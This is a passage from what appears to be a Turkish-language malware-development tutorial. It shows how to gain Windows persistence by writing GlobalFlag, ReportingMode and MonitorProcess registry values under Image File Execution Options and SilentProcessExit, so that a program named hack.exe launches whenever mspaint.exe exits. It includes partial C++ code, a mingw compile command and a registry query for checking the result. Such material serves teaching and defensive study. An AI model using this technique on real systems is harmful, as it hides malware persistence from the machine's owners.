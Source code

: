 Peki burada ne yaptık? Öncelikle, `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion` altında `SilentProcessExit` anahtarını oluşturduk, ardından `GlobalFlag` ekleyerek sessiz süreç çıkış izleme özelliğini etkinleştirdik:   

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
// Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, 
(const BYTE*)&gF, sizeof(gF));
//...
```

`MonitorProcess` değerini `...\hack.exe` olarak ve `ReportingMode` değerini `1` olarak ayarlayarak, `mspaint.exe` her sessiz çıkış yaptığında `hack.exe` adlı "zararlı yazılımımızın" çalışmasını tetiklemiş olduk:    

```cpp
//...

RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, 
(const BYTE*)&rM, sizeof(rM));
RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, 
strlen(exe));
```

### demo

Bu işlemi görmek için zararlı yazılımı derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/68/2022-09-11_15-52.png){width="80%"}    

Çalıştırın ve doğruluğunu kontrol edin:    

![pers](./images/68/2022-09-11_16-03.png){width="80%"}    


Öncelikle kayıt defteri anahtarlarını kontrol edin:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" /s
```
